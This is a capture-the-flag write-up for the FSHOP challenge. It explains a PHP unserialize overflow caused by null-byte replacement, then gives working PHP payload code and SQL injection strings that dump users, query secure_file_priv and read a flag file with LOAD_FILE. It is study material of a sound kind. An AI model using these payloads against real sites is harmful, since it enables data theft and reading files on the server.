 ### FSHOP



Taking a look at the source code you can notice some interesting stuff.

The process  when bying an object is like below:

Once you choose the product that exists in the database ,a new order is created  and stored in **$prouductOBJ ** then serialized and that serialized object gets inserted in the table **user_items**.

But since SQL can't save NULL bytes and since we do have protected attributes in Order class  ; when trying to store data into the DB there will be an interesting replace of **‘\x00\x2a\x00’**(chr(0).*.chr(0))with **'\0\0\0’**(the ‘\x00\x2a\x00’ is a prefix added to all the protected variables ).



![image-20200908233241180](./1.png)



From another side, in **items.php** ,while trying access your products  which get extracted  from the

database ,the**'\0\0\0’ **will be replaced with **‘\x00\x2a\x00’ **(null*null)in order to reconstruct the original order which is exactly where the overflow comes from .The **product_id **is later extracted and a vulnerable SQL query gets executed in order to return the exact product from **products** table.



![image-20200908233402021](./2.png)



So basically here the goal is the exploit the unserialize overflow in order to construct our own object which would allow us to perform a SQL injection and dig more into the database.

#### Exploit:

```php
<?php 

class Order
{

    protected $_quantity;
    protected $_size;
    public $_product_id;
    public function __construct($product_id,$quantity,$size){
    $this->_product_id=$product_id;
    $this->_quantity=$quantity;
    $this->_size=$size;	
    }

}

$quant="1";
$siz="S";
$order=new Order("1",$quant,$siz);
$ser=serialize($order);
$res_ser=str_replace(chr(0)."*".chr(0), '\0\0\0', $ser);

$to_unser=str_replace( '\0\0\0', chr(0)."*".chr(0),$res_ser);
echo "serialized object\n ";
echo $to_unser."\n\n\n";
echo "after deserialization\n ";
$unser_obj=unserialize($to_unser);
var_dump($unser_obj);
```

##### Results:

![image-20200908233522822](./3.png)



**“Quantity “will cause the ‘overflow’ and “size”will contain the last part of the exploit.**



First of all we need to make some calculations to get exactly how many \0\0\0 we need to add to $quant.

The distance from the end of the quantity  value and the beginning of the size value is 23 ( don’t forget that *  is indeed chr(0)."*".chr(0)). But  since we need to add a multiple of 3 ,we have to make it to 24 . so we need to add 16 * “\0\0\0”.

![image-20200909003046651](./4.png)

which means,

```php
$quant='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
```

the rest of the paload will be held in $siz.

```php
$siz='a";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:60:"50\' union select 1,2,3,4,5,6;-- -';
```

Notice that the length of product_id 's value is 60 which is the length of your payload for the product_id value **50' union select 1,2,3,4,5,6;-- -** plus the length of the remaining part (the real product_id)of the serialized object that will be added :**";s:11:"_product_id";s:1:"1** .

Make sure to always remember to add  27 to the length of your custom product_id so that when the unserialization happens it will keep reading until hitting 60 chars and add them to the product_id .

This added part won't affect the SQL statement due to the comments (-- -).

![image-20200908233857092](./5.png)

Now using Burp intercept the request and change the value of quantity & size and don’t forget to URL encode them ( and that little “\ “remove it it’ s just for php code :p).

```php
$siz=’a";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:61:"50' union select * from users limit 1 offset 0;-- -’;
```

You'll get the **the flag is not in the database** !

It won't be hidden behind closed doors , there must be a file for the flag .

Let’s find out from which directories we can load files.

```php
$siz='";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:156:"50\' union select 1,2,VARIABLE_VALUE,4,5,6,7 from performance_schema.session_variables where VARIABLE_NAME="secure_file_priv";-- -';
```

![image-20200909000407084](./6.png)



You ll get **/var/lib/Fword/mysql-files/You_got_it/**

The last step is the read flag.php

```php
$siz='";s:8:"\0\0\0_size";s:5:"12345";s:11:"_product_id";s:103:"50\' union select 1,2,LOAD_FILE("/var/lib/mysql-files/flag.txt"),4,5,6,7;-- -';
```



![image-20200909000958655](./7.png)



Et voilà 

![image-20200909002121224](./8.png)
